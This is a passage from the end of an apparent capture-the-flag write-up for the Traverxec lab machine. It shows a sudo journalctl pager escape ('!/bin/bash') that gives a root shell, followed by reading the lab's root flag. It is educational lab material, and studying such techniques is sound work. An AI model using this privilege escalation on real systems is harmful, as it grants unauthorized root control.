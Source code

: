 After many things, all rabbitholes and failures. I figured out that `/usr/bin/journalctl/` is running as root.

```console
david@traverxec:~/bin$ ls -l /usr/bin/journalctl
-rwxr-xr-x 1 root root 67672 Aug 20 07:50 /usr/bin/journalctl
```

Many googles later, I found a [cool little technique](https://gtfobins.github.io/gtfobins/journalctl/) that can be used to break out of the lower privileged shell and into a root shell. 

```console
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Sat 2019-12-14 00:44:22 EST, end at Sat 2019-12-14 02:12:10 EST. --
Dec 14 01:30:34 traverxec sudo[865]: pam_unix(sudo:auth): authentication failure; logname= u
Dec 14 01:30:35 traverxec sudo[865]: pam_unix(sudo:auth): conversation failed
Dec 14 01:30:35 traverxec sudo[865]: pam_unix(sudo:auth): auth could not identify password f
Dec 14 01:30:35 traverxec sudo[865]: www-data : command not allowed ; TTY=unknown ; PWD=/tmp
Dec 14 01:30:35 traverxec crontab[926]: (www-data) LIST (www-data)
!/bin/bash
root@traverxec:/home/david/bin# whoami
root
root@traverxec:/home/david/bin# cat /root/root.txt
9aa36*****************e0d906
```
There we have it!

# Conclusion

This was a very fun box. I felt like I have dialed in some of my procedures and either this box just aligned well with what I have or I got lucky. Either way I really enjoyed this one and especially liked the little privesc technique at the end.
